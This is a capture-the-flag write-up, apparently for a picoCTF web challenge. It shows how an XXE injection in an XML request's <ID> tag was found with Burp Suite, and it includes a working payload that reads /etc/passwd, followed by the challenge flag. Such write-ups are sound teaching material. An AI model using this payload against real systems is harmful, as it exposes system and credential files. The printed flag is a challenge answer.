





---

With Burp Suite HTTP History open and clicking through the website, we see 2 interesting things.
- There are 2 JavaScript files that look important.



- There is a request that is sent in XML format, hinting at the possibility of the presence of an XXE injection attack.



Playing with this request, we see that changing the value of the `<ID>` tag produces different outputs.
- Trying 5 instead of 1 produces this output:



- Trying a different tag other than `ID` doesn't give us information or prints out anything, so it looks like the vulnerable tag is the `<ID>` tag.



> The next step is to try and include the `/etc/passwd` file using XXE injection in the `<ID>` tag.

To do that, we need 2 things:
1. Add an external entity that contains the path to the file we want:
```xml
<!DOCTYPE foo [ 
	<!ENTITY ext SYSTEM "file:///etc/passwd" > 
]>
```
2. Call that entity in the XML body so that we can view its contents:
```xml
<ID>&ext;</ID>
```

Adding it all together, the payload sent should look like this:

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>
<data>
	<ID>&ext;</ID>
</data>
```

Sending the request with the above payload works, and the file content is displayed.



And we can see that the flag is printed at the bottom:

```text
picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}
```

---
